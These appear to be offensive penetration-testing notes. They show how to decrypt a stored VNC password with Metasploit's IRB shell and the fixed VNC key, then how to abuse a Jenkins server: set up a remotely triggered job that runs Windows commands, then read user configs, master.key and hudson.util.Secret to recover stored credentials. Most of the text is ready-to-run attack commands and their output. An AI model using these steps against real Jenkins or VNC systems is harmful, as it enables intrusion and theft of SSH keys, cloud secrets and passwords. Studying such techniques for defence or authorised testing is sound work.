 ## Decrypt VNC PASSWORD

```rb
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> false
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
>>
```

## Building Jenkins Job

click on Configure > Build Triggers > Trigger builds remotely and enter an authentication token of your choice, for example test . Now click on Build > Add build step > Execute a windows batch command and enter whoami

Now on the top right click on user icon and navigate to Configure.

Click on Add new Token and enter the token that we created earlier. Click on generate and copy the generated token. Using this token we can trigger the earlier configured job.

_Triggering the build job_

```
curl http://user:<copied token>@target:8080/job/<jobname>/build?token=test
```

If your unable to obtain reverse shell attempt to read the credentials.xml file, in case any credentials have been added to Jenkins. It's plausible that the master server will hold SSH keys, AWS secrets, and user credentials among other sensitive files. We can see the Jenkins path from the earlier build result.

_Finding The Jenkins Users_

```
cmd.exe /c "dir c:\Users\user-from-previous-whoami\Appdata\local\jenkins\.jenkins\users"
```

_Attempting to view admin credentials_

```
cmd.exe /c "type c:\Users\user-from-previous-whoami\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml"
```

_Retrieving master.key and hudson.util.Secret from secrets folder_

```
cmd.exe /c "type c:\Users\user-from-previous-whoami\Appdata\local\jenkins\.jenkins\secrets\master.key"
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\user-from-previous-whoami\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c"
```
